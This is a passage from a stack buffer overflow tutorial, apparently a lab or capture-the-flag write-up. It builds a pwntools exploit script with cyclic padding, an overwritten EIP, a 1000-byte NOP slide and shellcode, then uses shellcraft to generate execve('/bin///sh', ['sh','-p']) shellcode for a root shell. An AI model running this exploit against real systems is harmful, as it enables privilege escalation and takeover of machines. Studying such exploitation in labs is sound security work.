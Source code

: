 ```python
nop_slide = "\x90"*1000
```

Before we write our shellcode, we can inject a breakpoint at the end of our NOP slide to make sure the slide works. The breakpoint instruction in hex is "0xcc", and so we can add the following to our code:

```python
shellcode = "\xcc"
```

Our payload should be as follows:

```python
payload = padding + eip + nop_slide + shellcode
```

#### __First code__

```python
from pwn import * # pwntools module

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)

nop_slide = "\x90"*1000
shellcode = "\xcc"

payload = padding + eip + nop_slide + shellcode
print(payload)
```

Great, we can inject our own code into the program! Of course, we want to do more than hit a breakpoint, we want to spawn a root shell. That means we need to write some shellcode. While some crazy people like to write shellcode from scratch, pwntools gives us a great utility to cook up shellcode: shellcraft. If you have ever used msfvenom, shellcraft is a similar tool. Like cyclic, shellcraft can be used in the command line and inside python code.

The command line command for shellcraft is: `shellcraft arch.OS.command`.

```bash
shellcraft i386.linux.sh -f a # get the command "execve"
```

In this case, we want to execute /bin///sh, but we want to pass 'sh' and '-p' into the argv array. We can use shellcraft to create execve shellcode with"/bin///sh" and "['sh', '-p']" as parameters. We can do this with the following command:

```
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
```

When we run this command, we see it is the same as the linux.sh shellcode, except the added '-p' to the argv array. To write shellcode that is easier to use in our python exploit script, we can replace the "-f a" with "-f s", which will print our shellcode in string format.

```
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```
